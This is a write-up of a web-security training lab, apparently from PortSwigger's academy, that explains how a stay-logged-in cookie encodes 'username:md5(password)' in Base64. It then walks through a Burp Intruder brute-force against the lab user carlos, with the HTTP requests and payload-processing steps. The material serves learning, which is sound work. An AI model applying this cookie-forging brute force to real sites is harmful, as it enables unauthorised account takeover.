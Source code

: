 # Lab: Brute-forcing a stay-logged-in cookie
## Description
Goal: This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing. Brute-force Carlos's cookie to gain access to his "My account" page.

1. By authenticating as `wiener` and enabling the `Stay logged-in` the following request/response happens:
```yaml
POST /login HTTP/1.1
Host: ac8d1f981fb72c48c1a50226001400a2.web-security-academy.net
Cookie: session=02Dz1frodI1DLaCklWL1I7FQKN7PuQyZ

username=wiener&password=peter&stay-logged-in=on


HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Secure; HttpOnly; SameSite=None
```

2. When authenticating again, with `Stay logged in` disabled, the following is returned:
```yaml
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: session=Au8UVJuiZtQ8DlVQeZBND0Dyvn8HgJvA; Secure; HttpOnly; SameSite=None


```
3. Notice the difference? The `stay-logged-in` cookie is much longer and turned out to be Base64 encoded. Decoding (`d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`) will show up as `wiener:51dc30ddc473d43a6011e9ebba6ca770`
4. The latter part of the string is 32 characters long and could look like an md5. But of what? Well, turns out, its an md5 checksum of the user's password:
```bash
$ echo -n peter | md5sum
51dc30ddc473d43a6011e9ebba6ca770  -
```
5. With this, we can start brute forcing Carlos' password. First we take a password e.g. (`123456`) then we must convert it to a md5 checksum (`e10adc3949ba59abbe56e057f20f883e`) and finally take `carlos:e10adc3949ba59abbe56e057f20f883e` and base64 encode it (`Y2FybG9zOmUxMGFkYzM5NDliYTU5YWJiZTU2ZTA1N2YyMGY4ODNl`). 

## Solution
1. Open Burp Intruder, and provide the following payload, and configure it to use `Sniper` attack.
```yaml
GET /my-account HTTP/1.1
Host: ac8d1f981fb72c48c1a50226001400a2.web-security-academy.net
Cookie: stay-logged-in=§d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw§;

```
2. Use a `Simple list` payload type, and paste in the [passwords](../passwords.lst)
3. Configure Payload Processing.
	* Click Add and choose `Hash` and `MD5`
	* Click Add and choose `Add prefix` and type in `carlos:`
	* Click Add and choose `Encode` and `Base64-encode`
4. Start Burp Intruder attack and look for a response with `200 OK`

